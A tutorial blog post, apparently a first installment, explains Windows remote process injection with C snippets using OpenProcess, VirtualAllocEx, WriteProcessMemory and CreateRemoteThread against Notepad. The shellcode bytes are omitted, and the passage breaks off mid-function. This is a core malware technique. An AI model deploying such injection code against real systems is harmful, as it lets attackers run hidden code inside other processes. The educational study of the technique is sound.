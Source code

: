 ```yaml
---
layout: post
title:  "Process Injection - 01"
---
```


## Injecting shellcode into a remote process.

### Introduction

Process injection, a technique utilized in both legitimate applications and malicious software, involves manipulating the memory space of a running process. This blog delves into the intricacies of remote process injection, utilizing a simple C program for educational purposes. It's important to note that the provided code lacks evasion techniques and is intended solely for educational exploration.

### Overview of Process Injection

Process injection serves as a potent method for executing code in the address space of another process. This allows for various functionalities, including code injection, DLL injection, and reflective DLL injection. In our exploration, we'll focus on remote process injection, where the injection process is initiated from an external program. In our example, the program does not incorporate evasion techniques and maintains a straightforward structure. This approach allows for a clearer understanding of the core concepts without introducing complexities related to evasion.

### Utilized functions from the Windows APIs

The success of remote process injection hinges on leveraging specific Win32API functions. These functions play pivotal roles in tasks such as process identification, memory allocation in the remote process, and thread creation. Here are key Win32API functions employed in the provided C code:

- `CreateToolhelp32Snapshot`: Captures a snapshot of all processes currently running in the system.
- `Process32First` and `Process32Next`: Retrieve information about the first and subsequent processes in the snapshot.
- `OpenProcess`: Opens an existing process, providing various access rights.
- `VirtualAllocEx`: Allocates memory in the address space of the specified process.
- `WriteProcessMemory`: Writes data to the memory of the specified process.
- `CreateRemoteThread`: Creates a thread running in the address space of the specified process.

### Flow of the Program (key steps)

1. **Process Identification:** Identify the process ID of "Notepad.exe" or any process ID of your choice using `FindProcessId`.
2. **Open the Process:** If the process ID is obtained, open the process with full access rights using `OpenProcess`.
3. **Payload Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function.
4. **Execution:** The injected payload, represented by the shellcode, is executed within the context of the target process.

### Understanding the code

1. **Payload definition:** The `payload` variable encapsulates a block of machine code, acting as the payload intended for injection. This payload, in our example, is designed to open a calculator.

    ```c
    unsigned char payload[] = {
      // ... (payload content)
    };
    unsigned int payload_len = sizeof(payload);
    ```

2. **Process Identification:** (Identify the Process ID of "Notepad.exe" using `FindProcessId`)

    In this step, the program uses the `FindProcessId` function to determine the Process ID (PID) of the target process, which, in this example, is "Notepad.exe." The `FindProcessId` function takes the name of the target process as a parameter and iterates through the list of running processes to find a match. Here, the function uses the Windows API functions `CreateToolhelp32Snapshot` and `Process32First/Process32Next` to iterate through the list of processes, comparing each process name with the provided target name ("Notepad.exe"). When a match is found, the corresponding Process ID is returned.

    ```c
    int FindProcessId(const char *FprocessName) {
      HANDLE hProcessSnapshot;
      PROCESSENTRY32 pe32;
      DWORD pid = 0;

      hProcessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

      if (hProcessSnapshot == INVALID_HANDLE_VALUE) {
        // Error handling
        return 0;
      }

      pe32.dwSize = sizeof(PROCESSENTRY32);
      if (!Process32First(hProcessSnapshot, &pe32)) {
        // Error handling
        CloseHandle(hProcessSnapshot);
        return 0;
      }

      while (Process32Next(hProcessSnapshot, &pe32)) {
        if (_stricmp(FprocessName, pe32.szExeFile) == 0) {
          pid = pe32.th32ProcessID;
          break;
        }
      }

      CloseHandle(hProcessSnapshot);
      return pid;
    }
    ```

3. **Open the Process:** (If the Process ID is obtained, open the process with full access rights using `OpenProcess`)

    Once the Process ID is identified, the program uses the `OpenProcess` function to open the target process. This function returns a handle to the specified process, allowing subsequent operations on that process. In this snippet, the `OpenProcess` function is called with the identified Process ID and the desired access rights (`PROCESS_ALL_ACCESS`). If the function succeeds, it returns a handle (`hProcess`) to the opened process, signifying that subsequent operations can be performed on this process.

    ```c
    int main(void) {
      // ... (main function initialization)
      int main(void) {
        int process_Id = 0;
        HANDLE hProcess = NULL;

        process_Id = FindProcessId("Notepad.exe");

        if (process_Id) {
            printf("Notepad process id is: %d", process_Id);

            hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_Id);
            if (hProcess != NULL) {
                // Code to inject payload
            }
        }

        return 0;
    }
    ```

4. **Remote Process Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function. Following the successful opening of the target process, the program proceeds to inject the payload. This involves allocating memory within the address space of the target process using `VirtualAllocEx` and writing the payload into that allocated memory with `WriteProcessMemory`. Here, the `injectPayload` function is called with the opened process handle (`hProcess`) and the payload information. The `injectPayload` function, which was defined earlier, handles the memory allocation and payload injection.

    ```c
    // Function to inject payload into the target process
    int injectPayload(HANDLE ihProcess, unsigned char *iPayload, int iPayload_len) {
        // Allocate memory in the remote process
        LPVOID rmem = VirtualAllocEx(ihProcess, NULL, iPayload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (rmem == NULL) {
            // Error handling
            return -1;
        }

        // Write the payload into the allocated memory
        if (!WriteProcessMemory(ihProcess, rmem, (PVOID)iPayload, iPayload_len, NULL)) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem, 0, MEM_RELEASE);
            return -1;
        }

        // Create a remote thread to execute the injected payload
        HANDLE cremoteThread = CreateRemoteThread(ihProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rmem, NULL, 0, NULL);

        if (cremoteThread == NULL) {
            // Error handling
            VirtualFreeEx(ihProcess
